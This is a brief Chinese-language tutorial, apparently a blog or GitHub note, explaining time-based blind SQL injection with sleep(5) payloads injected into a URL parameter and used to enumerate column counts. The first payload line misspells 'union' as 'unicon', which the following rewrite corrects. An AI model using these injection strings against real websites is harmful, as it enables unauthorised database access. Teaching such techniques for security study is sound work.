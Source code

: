 # 基于时间的Blind SQLi
一个 基于时间的blind SQLi与基于布尔值的blind SQLi非常相似，因为发送了相同的请求，但是这次的查询是错误还是正确的，我们没有参考指标。相反，我们的正确查询的指示器基于查询所花费的时间完成。

### 例如
```
http://abc/edf/?referrer=jhinjax
```
那么我们可以这样
```
http://abc/edf?referrer=jhinjax123 ' unicon select sleep(5);--
等于
select * from edf where referrer = 'jhinjax123' unicon select sleep(5);-- limit 1;
等于
select * from edf where referrer = 'jhinjax123' union select sleep(5);
```

这样只有暂停了5秒后返回的结果才是查询成功的结果，否则不是
接着我们就可以一步一步枚举了
先枚举列数
```
referrer ='jhinjax123' union select sleep(5),2;--
```
依次类推枚举

枚举过程可查看[基于布尔值的Blind SQLi - 野荷 - 博客园 (cnblogs.com)](https://www.cnblogs.com/jhinjax/p/17258440.html)

只不过多了个sleep(5)罢了，其他的都一样
